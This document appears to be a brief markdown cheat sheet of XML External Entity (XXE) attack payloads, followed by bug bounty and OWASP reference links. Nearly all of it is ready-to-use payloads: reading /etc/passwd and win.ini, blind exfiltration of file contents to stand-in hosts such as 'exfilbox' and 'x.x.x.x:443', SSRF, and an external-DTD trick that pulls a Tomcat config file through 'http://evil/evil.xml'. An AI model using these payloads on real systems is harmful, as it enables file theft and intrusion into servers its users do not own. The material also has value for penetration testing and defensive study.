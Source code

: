 ```yaml
---
title: XXE
---
```


## Testing

Testing with python:

```
doc = etree.parse(open('/tmp/tmp.xml'), etree.XMLParser(resolve_entities=True,no_network=False))
```

## Payloads

Basic Local File Read

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

Exfiltrate data (e.g., blind)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://exfilbox/?%xxe;">]><foo>&blind;</foo>
```

XXE + SSRF

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

XXE using External DTD

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

External DTD handling tags:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

```
    <!ENTITY all "%start;%stuff;%end;">
```

## Cheatsheets

* [Bugbounty XXE Cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md)
* [Specific Case Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
* [OWASP XXE Prevention Cheatsheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)
* [OWASP XXE Testing Guide](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
